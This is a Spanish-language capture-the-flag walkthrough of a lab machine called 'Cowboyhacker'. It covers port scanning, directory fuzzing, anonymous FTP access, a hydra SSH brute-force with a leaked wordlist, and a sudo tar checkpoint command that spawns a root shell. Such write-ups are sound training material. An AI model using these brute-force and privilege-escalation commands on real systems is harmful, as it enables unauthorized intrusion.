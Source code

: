 # Cowboyhacker

## Enumeración de puertos

Para empezar, ejecutaremos el siguiente escaneo para la enumeración de puertos:

```bash
nmap <ipdelamaquina>
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled.png)

ssh port: 22

ftp port: 21

http port: 80

## Directory fuzzing

Vamos a intentar acceder a algún directorio oculto de la máquina haciendo fuerza bruta, mediante un diccionario:

```bash
gobuster dir -u [http://<ip_de_la_maquina>](http://%3Cip_de_la_maquina%3E/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%201.png)

**Directorios encontrados con éxito:**

/images

/server-status

## FTP

Sabemos que FTP es un servicio bastante vulnerable.

Intentaremos acceder a él mediante credenciales comunes:

anonymous:anonymous

ftp:ftp

anonymous:

Conseguimos acceso al ftp de forma anónima, con el usuario “anonymous":

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%202.png)

Una vez tenemos acceso, listamos el directorio raíz, para ver el contenido:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%203.png)

Una vez hecho esto, descargamos los ficheros de texto:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%204.png)

Y examinamos su contenido:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%205.png)

## SSH

### Ganando acceso a SSH

Intentamos acceder a SSH mediante fuerza bruta con el diccionario proporcionado por el fichero locks.txt (obtenido previamente del servidor FTP).

Comando para hacer fuerta bruta al login:

```bash
hydra -l lin -P locks.txt <ip_de_la_maquina> ssh
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%206.png)

Accedemos por SSH al usuario lin:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%207.png)

Una vez tengamos acceso al SSH daríamos paso a una escalada de privilegios, porque tenemos que conseguir el fichero root.txt. Lo cual puede ser una pista de dónde se debe encontrar este fichero.

## Escalada de privilegios

Escalación de privilegios en un sistema linux:

1. Averiguamos qué comandos puede usar el usuario actual como root:

```bash
sudo -l
```

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%208.png)

2. Ahora sabemos que puede ejecutar “tar” como aministrador.

3. Buscamos un script de tar en [gtfobins](https://gtfobins.github.io/).

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%209.png)

4. Ejecutamos el comando:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

5. Una vez hecho esto, tenemos acceso a una shell donde nos podemos convertir en administradores:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%2010.png)

6. Hecho esto, es cuestión de buscar el root.txt:

![Untitled](Cowboyhacker%20d4134bfcc4044fd1bf4e8ca29482b82d/Untitled%2011.png)

## Resumen del documento:

1. **Ports:**

> SSH port: 22
> 

> FTPport: 21
> 

> HTTP port: 80
> 

2. **FTP login:**

user: anonymous

pwd: 

3. **Directory fuzzing:**

```bash
gobuster dir -u [http://](http://10.10.63.5/)<ipdelamaquina>-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Directorios obtenidos:**

> /images
> 

> /server-status
> 

4. **Nombre del escritor de task.txt (ver en archivo)**


5. **SSH login**


- **ssh bruteforce command:**

   user: lin

   password: ******************

- **user.txt** **flag**

6. **Privilege escalation**:

- **Comandos que lin puede usar como root (**sudo -l**):**

    > /bin/tar
    > 

- **Comando tar usado para obtener una shell con privilegios:**

    ```bash
    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    ```

- **Usando una shell como usuario root**

    ```bash
    sudo su 
    ```

7. **Buscamos el archivo root.txt**

  Buscamos en el directorio del usuario root una vez somos root

```bash
cd ~
```